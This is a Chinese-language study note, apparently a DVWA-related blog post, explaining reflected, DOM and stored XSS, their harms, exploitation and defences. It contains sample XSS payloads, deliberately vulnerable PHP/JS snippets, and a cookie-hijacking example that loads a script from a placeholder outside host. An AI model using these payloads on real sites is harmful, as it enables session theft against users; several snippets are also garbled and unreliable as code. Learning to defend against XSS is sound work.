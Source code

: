 ```yaml
---
title: 文件上传 下载 包含漏洞
description: 搬运之前写的笔记
categories: 
 - dvwa
tags:
 - dvwa
---
```

# 漏洞说明
全名跨站脚本攻击，通常是指黑客通过恶意注入篡改了网页，插入了恶意的脚本，从而在用户浏览网页时，控制用户浏览器的一种攻击。Xss分类一般分是三种，存储型，反射性，dom型。
反射性XSS：访问携带XSS脚本的链接触发XSS。举个栗子，访问www.xxxxx.com/index.php?name=<img src=& onerror=alert(/aaa/)>，后端Php代码如下，
```
if(isset($_request[“name”]))
{$name=$_request[“name”]
}
Else{$name=””
}
Echo $name 
```
获取参数直接输出到客户端导致xss
Dom型XSS：通过修改页面的DOM节点形成的XSS。举个栗子：
访问链接 www.xxxxx.com/index.php#name,<img src=& onerror=alert(/aaa/)>
Js代码如下：
Var errormsg = location.hash.substring(1)
Document,getElementById(“asdgasdfa”).innerHTML = decodeURIComponent(errormsg)
可以在访问连接时，修改ID为asdgasdfa处的值触发xss漏洞
存储型XSS：这类XSS会把用户输入的数据存储在服务器端。这类xss 触发场景多是在留言中，写一篇包含xss代码的文章，提交后，这篇文章就会存储在服务器端。当其他用户登录这页留言时，就会触发xss漏洞。

# 漏洞危害
盗取信息，钓鱼，制造蠕虫
# 漏洞利用
1.cookie劫持。www.xxxxx.com/index.php?name=<script> src=http://www.xxxx.com/aa.js</script> 在aa.js中代码如下获取cookie
var div = document.createelement()”div”;
div.innerHTML=escape(document.cookie)
document.body.appendChild(div)
这样可以得到cookie.除此之外，在cookie劫持失效的时候，可以通过模拟get post请求操作用户的浏览器。方法与cookie劫持差不多。
2.获取用户信息：navigation.useragent可以获取浏览器信息。
而浏览器插件可以查询dom遍历出来，直接使用navigator.plugins可以找到所有插件-
3.制造蠕虫，这个看的不是很明白。
# 漏洞整改
1.cookie劫持可以使用httponly标志可以防止,在set-cookie时设置httponly属性将不会被JavaScript读取。
2.输入检查，过滤标签。
3.输出检查，在变量输出到html页面时，可以过滤或者编码相关字符来防御xss攻击。
4.使用安全的编码函数。对一些字符，比如<>等字符进行编码
5.白名单原则，在提交富文本内容时，设置白名单，只允许白名单内的标签可以通过检查。
6.对于dom型XSS的防御分情况而定，在变量输出到JavaScript时，应该执行一次javascriptencode，在输出到Html页面时，如果是输出到事件或者脚本上，需要做一次javascriptencode，如果是输出到html内容或者属性，需要执行一次htmlencode.